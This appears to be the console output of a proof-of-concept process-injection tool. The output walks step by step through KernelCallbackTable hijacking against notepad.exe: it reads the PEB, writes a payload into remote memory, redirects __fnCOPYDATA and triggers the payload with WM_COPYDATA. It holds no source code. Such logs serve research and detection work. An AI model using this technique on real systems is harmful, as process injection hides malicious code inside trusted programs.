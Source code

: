 ```
===================================================================

[*] Target Process: C:\Windows\System32\notepad.exe
[*] Payload Size: 19 bytes

[*] Step 1: Loading NT APIs...
[*] Loading NtQueryInformationProcess...
[+] NtQueryInformationProcess loaded at: 0x00007FFB404C3540

[*] Step 2: Creating target process...
[+] Process created (PID: 110404)

[*] Step 3: Waiting for process initialization...

[*] Step 4: Finding window handle...
[+] Window handle found: 0x00000000000E19FE

[*] Step 5: Opening process handle...
[+] Process ID: 54896
[+] Process handle: 0x0000000000000304

[*] Step 6: Retrieving PEB address...
[+] PEB Address: 0x00000064E6E26000

[*] Step 7: Reading KernelCallbackTable...
[+] KernelCallbackTable Address: 0x00007FFB3E2B9710
[+] Original __fnCOPYDATA: 0x00007FFB3E246470

[*] Step 8: Allocating remote memory for payload...
[+] Remote payload buffer: 0x0000025B20F90000
[+] Payload written (19 bytes)

[*] Step 9: Modifying KernelCallbackTable...
[+] Modified __fnCOPYDATA to point to: 0x0000025B20F90000

[*] Step 10: Cloning modified KernelCallbackTable...
[+] Modified table written to: 0x0000025B20FA0000

[*] Step 11: Updating PEB->KernelCallbackTable...
[+] PEB->KernelCallbackTable updated successfully

[*] Step 12: Triggering payload via WM_COPYDATA...
[+] Payload triggered!

===================================================================
[+] Injection completed successfully!
===================================================================

[*] Waiting 5 seconds to verify injection...
[+] Target process exited (Exit code: 0) - Payload executed!
[+] Verification file created: C:\Users\Public\kernel_callback_verified.txt

[*] Cleaning up...
```
